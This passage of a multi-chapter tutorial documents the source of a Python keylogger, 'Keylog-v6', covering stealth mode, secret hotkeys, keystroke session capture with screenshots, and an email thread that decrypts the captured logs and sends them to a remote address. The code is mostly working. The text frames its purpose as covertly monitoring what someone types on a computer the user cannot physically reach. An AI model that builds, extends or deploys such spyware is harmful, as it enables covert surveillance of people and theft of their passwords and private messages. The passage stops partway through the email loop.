                # Check if the pressed key matches the stealth hotkey
                if key_str == self.hotkeys["stealth"]:
                    # If it matches, call the method to toggle stealth
                    self.toggle_stealth()
                # Check if the pressed key matches the pause hotkey
                elif key_str == self.hotkeys["pause"]:
                    # If it matches, call the method to toggle pause/resume logging
                    self.pause_logging()
            except Exception as e:
                 # Optional: Print error if hotkey handling fails
                 print(f"Hotkey error: {e}")

        # Create the pynput keyboard listener object dedicated to hotkeys
        # This listener uses the on_hotkey function defined above
        self.hotkey_listener = keyboard.Listener(on_press=on_hotkey)

        # Start the hotkey listener in its own background thread
        # daemon=True means the thread will close automatically when the main app closes
        self.hotkey_listener.start()

```

This method sets up a *second* keyboard listener using `pynput`. This listener runs in its *own* background thread, separate from the main logging thread (if logging is even active). Its `on_press` function (`on_hotkey`) doesn't save the key presses; it just checks if the pressed key (or key combination, though the current code is simpler and only checks single keys like F-keys) matches the ones stored in `self.hotkeys` and calls the relevant action method (`self.toggle_stealth()` or `self.pause_logging()`).

The `self.hotkey_listener` variable stores this listener object so we can stop it later if needed (e.g., when changing hotkeys).

#### Restarting the Hotkey Listener

As mentioned in the `save_settings` explanation, if you change the hotkey in the settings, the currently running hotkey listener is still listening for the *old* hotkey. To make it listen for the *new* hotkey, you need to stop the old listener and start a new one with the updated `self.hotkeys` values. The `restart_hotkey_listener()` method does exactly this:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def restart_hotkey_listener(self):
        # Check if a hotkey listener is currently running
        if self.hotkey_listener:
            # If yes, stop it gracefully
            self.hotkey_listener.stop()

        # Start a new hotkey listener.
        # This new listener will use the now-updated self.hotkeys values.
        self.start_hotkey_listener()

```

This ensures that any changes you make to the hotkeys in the settings are immediately active.

### Using Hotkeys to Control Logging: Pause/Resume

The hotkey feature isn't just for hiding the window; it can also control the logging process itself. The "Pause" hotkey (default **F11**) triggers the `self.pause_logging()` method.

The `pause_logging()` method simply flips a flag (`self.is_paused`) that tells the main input listener (`log_keys`) whether it should temporarily ignore key presses. It also updates the GUI button text and status label.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def pause_logging(self):
        # Only do something if logging is currently active
        if self.is_logging:
            # Check the current pause state
            if self.is_paused:
                # If currently paused, resume logging
                self.is_paused = False # Set the flag to not paused
                self.pause_button.configure(text="Pause Logging") # Update button text
                self.status_label.configure(text="Status: Logging resumed.") # Update status
            else:
                # If not paused, pause logging
                self.is_paused = True # Set the flag to paused
                self.pause_button.configure(text="Resume Logging") # Update button text
                self.status_label.configure(text="Status: Logging paused.") # Update status

```

How does this `is_paused` flag actually stop the logging? Look back at the `on_press` function *inside* `self.log_keys` (the main input listener from [Chapter 4: Input Listener](04_input_listener_.md)). The *very first* check it does is:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.log_keys -> on_press - snippet)

        def on_press(key):
            # !!! Check if logging is disabled OR if it is paused !!!
            if not self.is_logging or self.is_paused:
                return # If logging is off or paused, just stop here and ignore the key

            # ... rest of the logging logic (timestamp, format, append, update_preview) ...
```

This simple `if` statement means that when `self.is_paused` is `True` (because you pressed the pause hotkey), the `on_press` function exits immediately, and the key press is not processed, stored, or shown in the preview.

### Putting it Together: Hotkey Triggering Stealth/Pause

Here's a simplified flow showing how pressing the stealth hotkey works:



The flow for the pause hotkey is similar, but instead of calling `toggle_stealth`, `on_hotkey` calls `pause_logging`, which flips the `self.is_paused` flag. The main logging listener then reacts to this flag.

### Key Components for Stealth and Hotkey Control

Let's summarize the main pieces involved:

| Component              | Description                                                      | Role in Keylog-v6                                          |
| :--------------------- | :--------------------------------------------------------------- | :--------------------------------------------------------- |
| `self.is_stealth`      | Boolean variable in `AdvancedKeylogger`.                         | Tracks whether the GUI window is currently hidden.         |
| `self.hotkeys`         | Dictionary in `AdvancedKeylogger` (`{"stealth": ..., "pause": ...}`). | Stores the configured key strings for hotkeys.             |
| `self.hotkey_listener` | `pynput.keyboard.Listener` object.                               | Dedicated listener running in a separate thread to detect hotkey presses globally. |
| `toggle_stealth()`     | Method in `AdvancedKeylogger`. Runs in the main GUI thread.      | Hides (`root.withdraw()`) or shows (`root.deiconify()`) the main window and updates state/GUI. |
| `pause_logging()`      | Method in `AdvancedKeylogger`. Runs in the main GUI thread.      | Toggles the `self.is_paused` flag and updates button/status text. |
| `start_hotkey_listener()` | Method in `AdvancedKeylogger`.                                 | Creates and starts the dedicated `self.hotkey_listener` thread. |
| `restart_hotkey_listener()` | Method in `AdvancedKeylogger`.                                 | Stops the current hotkey listener and starts a new one (used after saving changed hotkeys). |
| `on_hotkey(key)`       | Function used by `self.hotkey_listener`.                         | Called when any key is pressed; checks if it matches a configured hotkey and calls `toggle_stealth()` or `pause_logging()`. |
| `self.is_paused`       | Boolean variable in `AdvancedKeylogger`.                         | Tracks whether logging is currently paused. (Used by the main logging listener's `on_press` method). |

These components work together to provide discreet control over the application's visibility and the logging process itself, even when the main window is hidden.

### Conclusion

In this chapter, we learned about **Stealth and Hotkey Control**. We saw how the application's window can be hidden and shown using `self.root.withdraw()` and `self.root.deiconify()`, triggered by the "Toggle Stealth" button or a dedicated hotkey.

We explored how a *separate* `pynput` hotkey listener runs in the background specifically to detect global hotkey presses, even when the window is hidden or logging is stopped. This listener calls methods like `self.toggle_stealth()` and `self.pause_logging()` based on the configured hotkeys, providing a secret remote control for the application. Finally, we saw how the `self.is_paused` flag, controlled by the pause hotkey, is checked by the main logging listener to temporarily halt data capture.

Now that we understand how to control the application's visibility and logging state, let's look at how it organizes the captured data into meaningful time periods called "sessions".

[Next Chapter: Session Management](09_session_management_.md)

---
# Chapter 9: Session Management

Welcome back! In [Chapter 8: Stealth and Hotkey Control](08_stealth_and_hotkey_control_.md), we learned how to hide the Keylog-v6 window and use secret key combinations to control it, making it more discreet. Now that the keylogger can capture inputs quietly and save them securely ([Chapter 6: Data Encryption](06_data_encryption_.md), [Chapter 7: Log File Management](07_log_file_management_.md)), let's talk about making that collected data more meaningful and organized.

Looking at a giant list of every single key pressed over hours or days (`self.keys`) can be overwhelming. If you want to see what someone typed in a specific email or search box, wading through *all* activity isn't efficient.

This is where the concept of **Session Management** comes in.

### Organizing Your Input into Sessions

Imagine you're typing an email. You type a sentence, maybe press Enter to go to the next line, type another sentence, and finally press Enter a few times before writing the subject. Or you type a search query into a web browser and press Enter. These distinct blocks of typing, often ending with pressing the Enter key, represent natural "sessions" of input related to a specific task or thought.

Session management in Keylog-v6 aims to capture these individual bursts of typing as separate units, making them easier to review and understand in context. It does this by:

1.  **Grouping Keys:** Collecting consecutive keystrokes that seem related.
2.  **Using a Trigger:** Identifying a specific event (like pressing Enter) that signals the end of one group (session) and the start of another.
3.  **Saving Session Content:** Storing the actual text typed during that session.
4.  **Capturing the Moment:** Optionally taking a screenshot right when a session ends to show what was on the screen at that crucial moment.
5.  **Organizing:** Putting the session's text and screenshot into a dedicated folder for easy access.

Think of it as automatically putting bookmarks in your log whenever you press Enter, and also taking a quick picture of your screen at each bookmark!

### How Sessions are Captured and Triggered

Keylog-v6 uses the Enter key as the primary trigger to end a session. Here's the basic idea:

*   As you type keys, the application collects them in a temporary buffer *specifically* for the current session.
*   When you press the Enter key, it acts like a "session end" signal.
*   Upon detecting Enter, the application performs a series of actions:
    *   It creates a new folder named with a timestamp, for this specific session.
    *   It takes all the keys collected in the temporary session buffer and saves them as text inside a file (`content.txt`) within that new session folder.
    *   It clears the temporary session buffer, ready to collect keys for the *next* session.
    *   It takes a screenshot and saves it in the same session folder.

Mouse clicks are treated as separate events in the main log (`self.keys`) and are not currently included in the text content of the session (the `content.txt` file).

### Inside the Code: Capturing and Saving Sessions

Let's look at the code to see how this happens. We'll focus on parts of the `AdvancedKeylogger` class, particularly in the `on_press` method (called by the keyboard listener, as seen in [Chapter 4: Input Listener](04_input_listener_.md)) and some new methods for session handling.

First, in the `__init__` method, a new list `self.current_session_keys` is created to hold the keys for the *current* session:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.__init__ - snippet)

class AdvancedKeylogger:
    def __init__(self, root):
        # ... other initializations ...

        # Lists to hold data
        self.keys = [] # Main log list (all events)
        self.current_session_keys = [] # <-- Temporary list for the current session's keys!

        # ... variables for log_folder, encryption, etc. ...

        # Variable to hold the path of the current session's dedicated folder
        self.current_session_folder = None

        # ... rest of __init__ ...
```

This `self.current_session_keys` list will store the string representation of keys (`"a"`, `[SPACE]`, etc.) *before* they are formatted with timestamps and intervals (that formatting is only for the `self.keys` list and daily log files).

Next, look at the `on_press` method (inside `log_keys`). This is where each key press is processed:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.log_keys -> on_press - snippet)

        def on_press(key):
            if not self.is_logging or self.is_paused:
                return

            try:
                # ... (code to get timestamp, interval, update self.last_key_time) ...

                key_str = self.process_key(key) # Get the readable string for the key

                if key_str: # Only proceed if process_key returned something valid
                    # Add the formatted entry to the main log list (for preview/daily file)
                    log_entry = f"[{time_str}]  {key_str} ({interval:.0f}s)"
                    self.keys.append(log_entry)
                    self.update_preview(log_entry)

                    # *** Session Management Part ***
                    # Add the key string to the current session buffer
                    # Avoid adding specific keys like ENTER or SCREENSHOT themselves to the text content
                    self.current_session_keys.append(key_str if key_str not in ["[ENTER]", "[SCREENSHOT]"] else "")

                    # ... (code to update session statistics) ...

                    # !!! Check if the pressed key is the ENTER key !!!
                    if key_str == "[ENTER]":
                        # If Enter is pressed, it triggers session-end actions:
                        self.create_new_session_folder() # Create a dedicated folder
                        self.save_session_content()      # Save the collected session text
                        self.current_session_keys = []   # Clear the buffer for the next session
                        self.take_screenshot()           # Take a screenshot

                    # Also take a screenshot on Ctrl+V (often indicates pasted text)
                    elif key_str in ["[ENTER]", "[CTRL+V]"]:
                         # Note: The original code takes screenshot on BOTH Enter *and* Ctrl+V
                         # The Enter check already happens above, this handles Ctrl+V
                         self.take_screenshot()

            except Exception as e:
                # ... (error handling) ...

```

This snippet shows two key things:

1.  `self.current_session_keys.append(...)`: Most `key_str` values are added to this list. Notice the condition: `key_str if key_str not in ["[ENTER]", "[SCREENSHOT]"] else ""`. This means that if the key pressed is `[ENTER]` or `[SCREENSHOT]`, an empty string is added to the session keys list instead of the key name itself. This is because you usually don't want `[ENTER]` or `[SCREENSHOT]` appearing *within* the actual text content you typed.
2.  `if key_str == "[ENTER]":`: This is the trigger! When Enter is detected, it calls three specific methods: `create_new_session_folder`, `save_session_content`, and `take_screenshot`, and then clears `self.current_session_keys`.

Let's look at those session-specific methods:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def create_new_session_folder(self):
        # Get the current timestamp for naming the folder
        timestamp = datetime.datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
        # Create the full path for the new session folder inside the log folder
        # Example: keylogs/session_2023-12-02_14-35-01.keylog
        self.current_session_folder = os.path.join(self.log_folder, f"session_{timestamp}.keylog")
        # Create the folder on the file system
        os.makedirs(self.current_session_folder, exist_ok=True)

```
This method generates a unique folder name based on the date and time and creates that folder on your computer inside the main `self.log_folder`. The `.keylog` extension is used just as a convention to indicate it's a session folder.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def save_session_content(self):
        # Check if we have a valid folder created and if there are keys to save
        if self.current_session_folder and self.current_session_keys:
            # Define the path for the content file inside the session folder
            content_file = os.path.join(self.current_session_folder, "content.txt")
            # Join the collected keys into a single string, separated by spaces
            sentence = " ".join(self.current_session_keys)
            try:
                # Open the content file in 'append' mode ('a')
                # This adds the new sentence to the end of the file if it exists,
                # or creates the file if it doesn't.
                with open(content_file, "a") as f:
                    f.write(sentence + "\n") # Write the sentence followed by a newline
                # Add a status entry to the main log preview
                time_str = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
                self.keys.append(f"[{time_str}]  [SESSION SAVED] (0s) [SAVED]")
                self.update_preview(self.keys[-1])
            except Exception as e:
                # Handle saving errors
                time_str = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
                self.keys.append(f"[{time_str}] Error: {str(e)}")

```
This method takes the list of keys collected since the last Enter press (`self.current_session_keys`), joins them with spaces to form a sentence, and writes this sentence to `content.txt` inside the dedicated session folder. Using `"a"` (append) mode is useful because multiple sessions might happen within the timeframe of a single `save_session_content` call (e.g., if you type quickly and press Enter multiple times). Each block of text triggered by Enter gets added as a new line in the `content.txt` file.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def take_screenshot(self):
        try:
            # Get a timestamp for the screenshot file name
            timestamp = datetime.datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
            # Use ImageGrab from PIL (Pillow) to take a screenshot of the entire screen
            screenshot = ImageGrab.grab()
            # Save the screenshot in the current session folder (self.current_session_folder)
            # Note: The original code saves to self.screenshot_folder, this snippet
            # assumes saving to the session folder for tighter session grouping.
            # The original code would need adjustment here if saving to session folder is desired.
            # Let's stick to the original code's behavior and save to a general screenshot folder,
            # but the *time* of the screenshot is tied to the session trigger.
            screenshot.save(os.path.join(self.screenshot_folder, f"screenshot_{timestamp}.png"))

            # Add a status entry to the main log preview
            time_str = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
            log_entry = f"[{time_str}]  [SCREENSHOT] (0s) [SAVED]"
            self.keys.append(log_entry)
            self.update_preview(log_entry)
        except Exception as e:
            # Handle errors during screenshot
            time_str = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
            self.keys.append(f"[{time_str}] Error: {str(e)}")

```
This method uses the Pillow library (`ImageGrab`) to capture the screen and saves it as a `.png` file. In the provided code, screenshots are saved in a general `screenshots` folder (`self.screenshot_folder`), but the timing of the screenshot is directly linked to pressing Enter (or Ctrl+V), thus capturing the screen *at the moment* a session ends or content is pasted. The screenshot file name includes a timestamp, helping you match it up with the session folder created around the same time.

When logging is stopped (`self.stop_logging()`), there's one more related piece: the `save_session_summary()` method is called.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.stop_logging - snippet)

    def stop_logging(self):
        # ... update state flags, buttons, status ...

        self.save_log() # Save the daily log file first
        self.save_session_summary() # <-- Save overall session stats

        # Clear lists and reset session folder
        self.keys = []
        self.current_session_keys = []
        # Make sure any remaining content in the LAST session buffer is saved before stopping
        if self.current_session_folder and os.path.exists(self.current_session_folder):
            self.save_session_content() # Save lingering keys from the final session buffer

        # ... stop listeners ...

```

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def save_session_summary(self):
        # Check if logging was actually started and had a start time recorded
        if not self.session_stats["start_time"]:
            return # No logging occurred or started

        end_time = datetime.datetime.now()
        # Calculate total duration of the entire logging period
        duration = (end_time - self.session_stats["start_time"]).total_seconds() / 60.0 # in minutes
        # Get the most frequently used keys during this entire logging period
        most_used = sorted(self.session_stats["most_used"].items(), key=lambda x: x[1], reverse=True)[:5] # Top 5

        # Format the summary content
        summary = [
            f"Session Summary - {end_time.strftime('%Y-%m-%d %H:%M:%S')}",
            f"Total Duration: {duration:.2f} minutes",
            f"Total Keys Pressed: {self.session_stats['keys_pressed']}",
            "Top 5 Most Used Keys:",
            *[f"  {k}: {v} times" for k, v in most_used], # List the top keys
            f"Network Status: {self.get_network_status()}", # Get network status
            f"Session Start: {self.session_stats['start_time'].strftime('%Y-%m-%d %H:%M:%S')}",
            f"Session End: {end_time.strftime('%Y-%m-%d %H:%M:%S')}"
        ]

        # Define the path for the summary file (usually in the main log folder)
        summary_file = os.path.join(self.log_folder, f"summary_{end_time.strftime('%Y-%m-%d')}.txt")

        try:
            # Write the summary to a file (using 'w' mode, overwriting any existing summary for today)
            with open(summary_file, "w") as f:
                f.write("\n".join(summary))

            # Add a status entry to the main log preview
            time_str = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
            self.keys.append(f"[{time_str}]  [SUMMARY SAVED] (0s) [SAVED]")
            self.update_preview(self.keys[-1])

        except Exception as e:
            # Handle saving errors
            messagebox.showerror("Error", f"Failed to save summary: {str(e)}")

```
This method isn't about the individual sessions triggered by Enter, but rather provides an *overall summary* of the entire logging period since "Start Logging" was clicked. It calculates total keys pressed, duration, and most used keys, and saves this into a separate summary file daily. This adds another layer of analysis capability.

### The Session Trigger Flow

Here's a simplified look at what happens when you press the Enter key:



This shows how pressing Enter sets off a chain reaction to neatly package the input that came before it into a dedicated folder with supporting evidence (the screenshot).

### Key Components for Session Management

Let's summarize the main pieces involved in session management:

| Component                 | Description                                                             | Role in Keylog-v6                                               |
| :------------------------ | :---------------------------------------------------------------------- | :-------------------------------------------------------------- |
| `self.current_session_keys` | A Python list variable in `AdvancedKeylogger`.                        | Temporarily holds key strings for the *current* typing session. |
| `self.current_session_folder` | String variable in `AdvancedKeylogger`.                               | Stores the file path for the currently active session's folder. |
| `on_press(key)`           | Function used by the keyboard listener.                                 | Appends to `self.current_session_keys` and triggers session-end actions when `[ENTER]` is pressed. |
| `process_key(key)`        | Helper method.                                                          | Provides the string (`key_str`) added to `self.current_session_keys`. |
| `[ENTER]` Key             | The Enter key press.                                                    | Acts as the primary trigger to end a session and save its content/screenshot. |
| `create_new_session_folder()` | Method in `AdvancedKeylogger`.                                        | Creates a timestamped directory for a new session within the log folder. |
| `save_session_content()`  | Method in `AdvancedKeylogger`.                                        | Joins keys from `self.current_session_keys` and writes/appends them to `content.txt` in the session folder. |
| `take_screenshot()`       | Method in `AdvancedKeylogger` (uses `PIL.ImageGrab`).                   | Captures the screen at the moment of the trigger (Enter/Ctrl+V) and saves it. |
| `save_session_summary()`  | Method in `AdvancedKeylogger` (called by `stop_logging`).             | Provides an overall summary of the *entire* logging period (duration, total keys, most used keys) in a separate file. |
| `self.session_stats`      | Dictionary in `AdvancedKeylogger`.                                      | Stores statistics (total keys, most used, start time) for the *overall* logging period, used by `save_session_summary`. |

These components work together to add structure and context to the captured input, making the logs easier to navigate and analyze by grouping related keystrokes and capturing the visual context (screenshots) at key moments.

### Conclusion

In this chapter, we explored **Session Management**, a feature that helps organize the raw stream of key presses into logical chunks or "sessions". We learned how the application uses a separate buffer (`self.current_session_keys`) to collect keys for the current session and how pressing the Enter key acts as a trigger to end the session.

Upon this trigger, Keylog-v6 automatically creates a dedicated timestamped folder (`create_new_session_folder`), saves the collected session text to a file within that folder (`save_session_content`), clears the session buffer, and captures a screenshot (`take_screenshot`) to provide visual context. We also briefly touched upon the `save_session_summary` feature, which provides statistics for the entire logging duration. This structure makes analyzing specific sequences of typed input much more manageable.

Now that we understand how logs are captured, handled, encrypted, saved, and organized into sessions, the final chapter will cover how the application can automatically send these logs to you via email.

[Next Chapter: Email Alert System](10_email_alert_system_.md)

---
# Chapter 10: Email Alert System

Welcome back! Over the past chapters, we've built up the Keylog-v6 application piece by piece. We learned how the core application works ([Chapter 1](01_advanced_keylogger_application_.md)), how to interact with it through the GUI ([Chapter 2](02_graphical_user_interface__gui__.md)) and settings ([Chapter 3](03_settings_and_configuration_.md)), how it listens for your input ([Chapter 4](04_input_listener_.md)), handles that data in memory ([Chapter 5](05_log_data_handling_.md)), keeps it secret through encryption ([Chapter 6](06_data_encryption_.md)), saves it neatly into files ([Chapter 7](07_log_file_management_.md)), and even stays hidden and responds to secret hotkeys ([Chapter 8](08_stealth_and_hotkey_control_.md)) while organizing logs into sessions ([Chapter 9](09_session_management_.md)).

Now, imagine a scenario where you want to monitor activity on a computer that you don't have constant physical access to. You can't just walk up to it, open the log folder, and read the files. How can you get the logged information sent to you automatically, even if the keylogger application is running hidden in the background?

This is exactly the problem solved by the **Email Alert System**.

### Your Remote Messenger Service

Think of the Email Alert System as a dedicated messenger within the keylogger application. If you enable this feature in the settings, this messenger will periodically wake up, gather the most recent log information that's been saved to file, package it up securely (making sure it's readable again after encryption!), and send it off as an email to an address you specify.

This allows you to potentially receive logs and monitor activity from afar, without needing direct access to the computer where Keylog-v6 is running.

Here's what the Email Alert System does:

1.  **Checks Settings:** It only runs if you've enabled it and provided the necessary email details.
2.  **Waits:** It waits for a specific amount of time (the "interval" you set) before sending an email.
3.  **Gathers Logs:** It reads the latest saved log file(s) from the log folder.
4.  **Decrypts Logs:** It uses the secret encryption key ([Chapter 6: Data Encryption](06_data_encryption_.md)) to turn the encrypted bytes back into readable text.
5.  **Sends Email:** It connects to an email server using your provided email address and password and sends the decrypted log content to a specified receiver email address.

### Setting Up Email Alerts in the GUI

Enabling and configuring the Email Alert System is done through the application's GUI, specifically in the "Settings" section we explored in [Chapter 3: Settings and Configuration](03_settings_and_configuration_.md).

Look for the "Email" section within the settings:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui - snippet)

        # Email Settings section container
        self.email_frame = ttk.LabelFrame(self.settings_frame, text="Email", padding="5")
        self.email_frame.pack(fill=tk.X, pady=5)

        # Checkbox to enable/disable the feature
        self.email_enabled = tk.BooleanVar() # <-- Variable to hold True/False state
        self.email_check = ttk.Checkbutton(self.email_frame, text="Enable Email Alerts", variable=self.email_enabled, command=self.toggle_email_settings) # <-- Linked to a method
        self.email_check.grid(row=0, column=0, columnspan=3, sticky="w", pady=5)

        # Fields for email configuration (initially disabled until checkbox is checked)
        self.email_label = ttk.Label(self.email_frame, text="Your Email:", font=("Consolas", 10))
        self.email_label.grid(row=1, column=0, sticky="w", padx=5)
        self.email_entry = ttk.Entry(self.email_frame, width=40, font=("Consolas", 10))
        self.email_entry.grid(row=1, column=1, columnspan=2, padx=5)

        self.pass_label = ttk.Label(self.email_frame, text="Email Password:", font=("Consolas", 10))
        self.pass_label.grid(row=2, column=0, sticky="w", padx=5)
        self.pass_entry = ttk.Entry(self.email_frame, width=40, show="*", font=("Consolas", 10)) # <-- 'show="*" masks the password
        self.pass_entry.grid(row=2, column=1, columnspan=2, padx=5)

        self.receiver_label = ttk.Label(self.email_frame, text="Receiver Email:", font=("Consolas", 10))
        self.receiver_label.grid(row=3, column=0, sticky="w", padx=5)
        self.receiver_entry = ttk.Entry(self.email_frame, width=40, font=("Consolas", 10))
        self.receiver_entry.grid(row=3, column=1, columnspan=2, padx=5)

        self.interval_label = ttk.Label(self.email_frame, text="Email Interval (sec):", font=("Consolas", 10))
        self.interval_label.grid(row=4, column=0, sticky="w", padx=5)
        self.interval_entry = ttk.Entry(self.email_frame, width=10, font=("Consolas", 10))
        self.interval_entry.insert(0, "300") # <-- Default interval: 300 seconds (5 minutes)
        self.interval_entry.grid(row=4, column=1, sticky="w", padx=5)

        # ... rest of settings and Save Settings button ...
```

To set up email alerts:

1.  Locate the "Email" section in the settings.
2.  Check the box labeled "Enable Email Alerts". This enables the entry fields below it.
3.  In the "Your Email:" field, enter the email address that will be used to *send* the logs.
4.  In the "Email Password:" field, enter the password for the sending email account. **Be very careful with this!** Consider using an "App Password" for services like Gmail if you have 2-Factor Authentication enabled, as using your regular password can be less secure.
5.  In the "Receiver Email:" field, enter the email address where you want to *receive* the logs. This can be the same as "Your Email:" or a different one.
6.  In the "Email Interval (sec):" field, enter how often (in seconds) you want the application to attempt sending an email. The default is 300 seconds (5 minutes).
7.  Scroll down and click the **"Save Settings"** button.

Clicking the "Enable Email Alerts" checkbox calls the `self.toggle_email_settings()` method (as shown in [Chapter 3](03_settings_and_configuration_.md)), which simply enables or disables the entry fields below it in the GUI, making it clear which fields are relevant.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def toggle_email_settings(self):
        # Get the current state (checked or unchecked) of the email checkbox
        state = "normal" if self.email_enabled.get() else "disabled"
        # Loop through the email-related entry widgets
        for widget in [self.email_entry, self.pass_entry, self.receiver_entry, self.interval_entry]:
            # Set the state of each widget (normal=enabled, disabled=greyed out)
            widget.configure(state=state)
```

### What Happens When You Save Email Settings?

When you click "Save Settings", the `self.save_settings()` method runs. As discussed in [Chapter 3](03_settings_and_configuration_.md), this method reads *all* the settings from the GUI and updates the application's internal state. For email settings, it specifically updates the `self.email_config` dictionary:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.save_settings - snippet)

    def save_settings(self):
        # ... read log folder setting ...

        # Read email settings from the GUI and store them in self.email_config dictionary
        self.email_config["enabled"] = self.email_enabled.get() # Get True/False from checkbox
        self.email_config["email"] = self.email_entry.get() # Get sender email text
        self.email_config["password"] = self.pass_entry.get() # Get password text
        self.email_config["receiver"] = self.receiver_entry.get() # Get receiver email text

        try:
            # Get interval text and try to convert it to an integer number
            self.email_config["interval"] = int(self.interval_entry.get())
        except ValueError:
            # If it's not a valid number, set a default interval (300 seconds)
            self.email_config["interval"] = 300

        # ... read other settings (log interval, hotkeys, auto-delete) ...
        # ... restart hotkey listener if needed ...

        messagebox.showinfo("Success", "Settings saved.")
```

This snippet shows how the values you typed into the email entry fields and the state of the checkbox are read using `.get()` and stored in the `self.email_config` dictionary. This dictionary now holds all the necessary details for the email system to use later.

**Important:** Saving settings *doesn't* immediately send an email. It just tells the application *what* to do if emailing is enabled and logging is started.

### Starting the Email Messenger (Under the Hood)

The Email Alert System, like the main Input Listener ([Chapter 4](04_input_listener_.md)) and the Auto-Save feature ([Chapter 7](07_log_file_management_.md)), runs as a separate background task (a thread). This prevents the email sending process (which might take time or encounter network issues) from freezing the main application window.

This email thread is started inside the `self.start_logging()` method, which is called when you click the "Start Logging" button in the GUI:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.start_logging - snippet)

    def start_logging(self):
        if self.is_logging:
            return # Already running

        self.is_logging = True
        # ... update button states, status label, start main log thread ...
        # ... start mouse listener ...

        # *** Check if email alerts are enabled in settings ***
        if self.email_config["enabled"]:
            # If enabled, create and start the background thread for emailing
            threading.Thread(target=self.email_logs_periodically, daemon=True).start() # <-- Starts the email thread

        # Start the auto-save thread (if not already running)
        threading.Thread(target=self.auto_save_logs, daemon=True).start()

        self.session_stats["start_time"] = datetime.datetime.now()

```

As you can see, right after starting the main logging and mouse listeners, the `start_logging` method checks the value of `self.email_config["enabled"]`. If it's `True` (meaning you checked the box and saved settings), it creates a new `threading.Thread` and tells it to run the `self.email_logs_periodically` method. The `daemon=True` part means this thread will automatically stop when the main application closes.

### The Periodic Emailing Loop

The `self.email_logs_periodically()` method is where the core logic of the Email Alert System lives. This method runs continuously in its background thread *as long as logging is active* (`self.is_logging` is True) *and* email alerts are enabled (`self.email_config["enabled"]` is True).

It's essentially a loop that repeats the process of saving logs, reading them, decrypting them, and emailing them, with pauses in between.

Here's a simplified look at the method:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def email_logs_periodically(self):
        # This loop runs in a separate background thread!
        # Keep running as long as logging is active AND email is enabled
        while self.is_logging and self.email_config["enabled"]:

            # 1. Ensure latest logs are saved to the daily file
            self.save_log() # Calls the method from Chapter 7 (which also encrypts)

            # 2. Determine the path to today's log file
            date = datetime.datetime.now().strftime("%Y-%m-%d")
            log_file = os.path.join(self.log_folder, f"log_{date}.txt")

            # 3. Check if the log file exists and has content
            if os.path.exists(log_file) and os.path.getsize(log_file) > 0:
                try:
                    # 4. Read and Decrypt the log file content
                    #    Read the encrypted bytes from the file (rb mode)
                    with open(log_file, "rb") as f:
                        encrypted_content = f.read() # Get encrypted bytes
                    #    Use the cipher (from Chapter 6) to decrypt the bytes
                    decrypted_content_bytes = self.cipher.decrypt(encrypted_content)
                    #    Decode the resulting bytes back into a human-readable string
                    content = decrypted_content_bytes.decode()

                    # 5. Send the email with the decrypted content
                    #    (The detailed sending logic is shown separately below)
                    self.send_log_email(content) # <-- Call a helper method to send

                    # 6. Add a status entry to the main log preview (using root.after to update GUI safely)
                    time_str = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
                    log_entry = f"[{time_str}]  [EMAIL SENT] (0s) [SAVED]"
                    self.root.after(0, lambda e=log_entry: self.update_preview(e)) # Schedule update on GUI thread

                except Exception as e:
                    # Handle errors during reading, decrypting, or sending
                    self.root.after(0, lambda msg=f"Email failed: {str(e)}": messagebox.showerror("Error", msg)) # Show error in GUI

            # 7. Wait for the specified interval before repeating the loop
            #    Get the interval from the email settings (defaults to 300 if invalid)
            try:
